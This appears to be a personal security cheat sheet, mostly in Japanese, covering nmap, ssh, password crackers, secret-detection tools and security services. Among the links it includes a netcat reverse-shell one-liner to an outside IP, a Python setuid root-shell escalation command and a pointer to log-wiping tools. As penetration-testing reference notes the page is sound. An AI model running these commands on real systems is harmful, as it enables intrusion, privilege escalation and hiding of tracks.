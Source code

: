 # Tools

### nmap

https://nmap.org/

https://orebibou.com/ja/home/201506/20150603_001/

スクリプト：/usr/share/nmap/scripts

```bash
# 頻出ポートの一覧 (上位100)
nmap --top-ports 100 -oG - -v -sSU

# ポートスキャンしない：-Pn
# 名前解決しない：-n
# TCP -sT
# SYN -sS
# UDP -sU

# cheat sheet
curl cheat.sh/nmap
```

### ssh

リモートホストにコピー

```bash
cat file1 | ssh -f user@server 'cd $HOME; cat > file1'
```

踏み台設定

```txt
cat ~/.ssh/config
Host host2
     ProxyCommand ssh host1 nc %h %p
```

### getcap

```bash
getcap -r / 2>/dev/null
```

### password

- 辞書ファイル、パスワードリスト
  - https://download.openwall.net/pub/wordlists/
- password cracker
  - https://www.openwall.com/john/
  - https://github.com/vanhauser-thc/thc-hydra
- password recovery
  - https://en.wikipedia.org/wiki/Cain_and_Abel_(software)

### log wipers

https://packetstormsecurity.com/UNIX/penetration/log-wipers

```bash
# current login users (utmp)
who
w

# login users info (wtmp)
last
ac -p

# last login users (lastlog)
lastlog
```

### netcat

```bash
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```

### Privilege escalation

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### POC Tools

https://github.com/mbechler/marshalsec

### Linux

https://access.redhat.com/documentation/ja-jp/red_hat_enterprise_linux/7/html/security_guide/sec-using-aide

## Secret Detection

https://github.com/zricethezav/gitleaks

https://github.com/trufflesecurity/truffleHog

https://github.com/tillson/git-hound

https://github.com/americanexpress/earlybird

https://github.com/mazen160/secrets-patterns-db

### Services & Apps

https://www.crowdstrike.com/

https://chronicle.security/

https://www.fireeye.com/

https://www.darktrace.com/

https://www.blackberry.com/

https://www.menlosecurity.com/

https://www.shodan.io/

https://app.netlas.io  

[Finding Vulnerable Systems Across the Internet with Netlas.io](https://www.hackers-arise.com/post/open-source-intelligence-osint-finding-vulnerable-systems-across-the-internet-with-netlas-io)

https://www.exabeam.com/

https://www.adaptive-shield.com/

https://regexr.com/

https://houdini.secsi.io/

https://github.com/Datadog/stratus-red-team/

https://snyk.io/

https://www.cisa.gov/free-cybersecurity-services-and-tools

https://www.blueteamsacademy.com/top20/

https://www.traceable.ai/

https://www.araalinetworks.com/araali-lens

https://www.gigamon.com/

https://deepfence.io/threatmapper/

### OSS

https://github.com/awslabs/git-secrets

https://github.com/sobolevn/git-secret

https://github.com/optiv/ScareCrow

https://github.com/cytopia/pwncat

https://github.com/Cisco-Talos/clamav

https://github.com/decalage2/oletools

https://github.com/decalage2/ViperMonkey

https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py

https://github.com/DidierStevens/DidierStevensSuite/blob/master/zipdump.py

https://github.com/makenowjust-labs/recheck

https://github.com/KathanP19/HowToHunt

https://github.com/bridgecrewio/checkov

https://github.com/Lissy93/personal-security-checklist

https://github.com/decalage2/awesome-security-hardening

https://github.com/curiefense/curiefense

https://github.com/containers/bubblewrap

https://github.com/dropbox/zxcvbn

https://github.com/GitGuardian/ggshield

https://github.com/cisagov/cset
